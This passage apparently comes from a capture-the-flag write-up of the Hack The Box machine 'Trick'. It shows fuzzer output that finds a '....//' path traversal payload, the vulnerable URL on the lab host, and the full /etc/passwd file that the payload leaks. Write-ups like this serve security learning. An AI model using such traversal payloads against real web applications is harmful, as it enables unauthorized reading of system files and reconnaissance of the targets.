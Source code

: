 ```
....//....//....//....//etc/passwd [Status: 200, Size: 2351, Words: 28, Lines: 42, Duration: 133ms]
:: Progress: [920/920] :: Job [1/1] :: 430 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

Based on the last line in these results, we can see that if we go if we go to *http://preprod-marketing.trick.htb/index.php?page=....//....//....//etc/passwd*, we actually get the `/etc/passwd` file back. It looks all jumbled up, but if we right-click on the page and select `view source`, It looks much nicer. Here it is

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:112:121::/var/lib/saned:/usr/sbin/nologin
colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:118:65534::/run/sshd:/usr/sbin/nologin
postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin
bind:x:120:128::/var/cache/bind:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash
```
